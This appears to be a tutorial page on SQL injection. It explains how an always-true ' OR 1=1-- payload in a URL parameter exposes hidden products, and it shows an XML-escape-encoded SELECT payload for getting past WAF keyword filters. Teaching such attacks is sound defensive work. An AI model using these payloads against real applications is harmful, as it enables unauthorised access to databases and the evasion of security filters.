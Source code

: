 # Retrieving hidden data

Consider the following scenario.

A shopping application that displays products in different categories, making a request to the URL:

```
https://insecure-website.com/products?category=Gifts
```

The application executes an SQL query to retrieve the details of products from the database.

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

In this scenario if the application doesn't implement defenses against SQL injection attacks all products can be retrieved from the database using an always true statement.

### Always true statement and comment indicator on SQL

The attack string is `OR 1=1 --`  , where `OR 1=1` is an always true statement that will retrieve all items. 
If the attacker can inject the statement and the `--` characters make the rest of the query to be an SQL comment. Thus controlling the query and making it possible to retrieve hidden data from the database.

### Injection on URL

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

### Resulting query to the database

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

# SQL Injection in different contexts

Injections can happen in any controllable input that is processed as a SQL query by the application. Some applications may take JSON or XML format to use it on the database.

These formats can provide ways to obfuscate attacks that are otherwise blocked by WAFs and other defense mechanisms. Weak filter implementations often look for common SQL injection keywords within the request so these controls may be bypassed by encoding or escaping characters.

## Payload using XML escape sequence

XML escape sequence to encode the `S` character in `SELECT`:

```XML
<stockCheck>
	<productId>
		123
	</productId>
	<storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId> 
</stockCheck>
```
This will be decoded server-side before being passed to the SQL interpreter.


